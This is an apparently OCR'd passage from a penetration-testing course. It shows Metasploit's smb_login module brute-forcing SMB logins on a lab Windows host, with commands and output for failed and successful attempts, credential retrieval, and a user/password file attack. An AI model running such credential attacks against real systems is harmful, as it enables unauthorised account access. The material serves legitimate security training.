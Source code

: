  We’ll start by supplying the valid domain name of corp.com, a valid username (Offsec), an invalidpassword (ABCDEFG123!), and the Windows 10 target’s IP address:
 
 msf5 auxiliary(scanner/smb/smb_login) > set SMBDomain corp.com
SMBDomain => corp.com
msf5 auxiliary(scanner/smb/smb_login) > set SMBUser Offsec
SMBUser => Offsec
msf5 auxiliary(scanner/smb/smb_login) > set SMBPass ABCDEFG123!
SMBPass => ABCDEFG123!
msf5 auxiliary(scanner/smb/smb_login) > setg RHOSTS 10.11.0.22
RHOSTS => 10.11.0.22
msf5 auxiliary(scanner/smb/smb_login) > set THREADS 10
THREADS => 10
msf5 auxiliary(scanner/smb/smb_login) > run
[*] 10.11.0.22:445 - 10.11.0.22:445 - Starting SMB login bruteforce
[*] 10.11.0.22:445 - 10.11.0.22:445 - This system does not accept authentication wit
[-] 10.11.0.22:445 - 10.11.0.22:445 - Failed: 'corp.com\Offsec:ABCDEFG123!',
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

 
 Since we knew that the password we supplied was invalid, the login failed as expected. Now, let’stry to supply a valid password and re-run the module.
 
 msf5 auxiliary(scanner/smb/smb_login) > set SMBPass Qwerty09!
SMBPass => Qwerty09!
msf5 auxiliary(scanner/smb/smb_login) > run
[*] 10.11.0.22:445 - 10.11.0.22:445 - Starting SMB login bruteforce
[*] 10.11.0.22:445 - 10.11.0.22:445 - This system does not accept authentication wit
[+] 10.11.0.22:445 - 10.11.0.22:445 - Success: 'corp.com\Offsec:Qwerty09!' Administr
ator
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

 
 This time, the authentication succeeded. We can retrieve information regarding successful login attempts from the database with creds.
 
 msf5 > creds
Credentials
===========
host origin service public private realm private_typ
---- ------ ------- ------ ------- ----- -----------
10.11.0.22 10.11.0.22 445/tcp (microsoft-ds) Offsec Qwerty09! corp.com Password

 
 run was successful, this method will not scale well.
 
 To test a larger user base with avariety of passwords, we could instead use the USERPASS_FILE parameter, which instructs the module to use a file containing users and passwords separated by space, with one pair per line.
 
 msf5 auxiliary(scanner/smb/smb_login) > set USERPASS_FILE /home/kali/users.txt
USERPASS_FILE => /home/kali/users.txt
msf5 auxiliary(scanner/smb/smb_login) > run
[*] 10.11.0.22:445 - 10.11.0.22:445 - Starting SMB login bruteforce
[-] 10.11.0.22:445 - 10.11.0.22:445 - Failed: '.\bob:Qwerty09!',
[-] 10.11.0.22:445 - 10.11.0.22:445 - Failed: '.\bob:password',
[-] 10.11.0.22:445 - 10.11.0.22:445 - Failed: '.\alice:Qwerty09!',
[-] 10.11.0.22:445 - 10.11.0.22:445 - Failed: '.\alice:password',
